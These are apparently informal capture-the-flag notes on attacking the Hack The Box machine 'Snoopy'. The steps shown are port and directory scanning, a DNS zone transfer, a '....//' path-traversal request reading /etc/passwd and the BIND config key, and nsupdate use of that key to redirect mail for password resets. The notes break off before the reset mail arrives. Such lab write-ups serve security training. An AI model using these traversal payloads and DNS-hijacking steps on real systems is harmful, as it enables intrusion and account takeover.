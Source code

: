 sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

https://hyperbeast.es/snoopy-htb/

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 




```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]




nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


we know lfi wxists tso the way to get ot the configuration key is by looking into /etc/bind/named.conf

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

exploit mail dns

 nsupdate                  
> server 10.10.11.212 53
> key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
> zone snoopy.htb
> update add mail.snoopy.htb 86400 A 10.10.16.47
> send

starting python smtpd server

python3 -m smtpd -c DebuggingServer -n 10.10.16.47:25

we added mm.snoopy.htb

a matter most page opens

![](20230715060719.png)

then we go and reset our password

we reset password for at password reset page

cschultz@snoopy.htb

but not able to

![](20230715060913.png)

nothing came maybe because we did not transfer the zone properly before









```


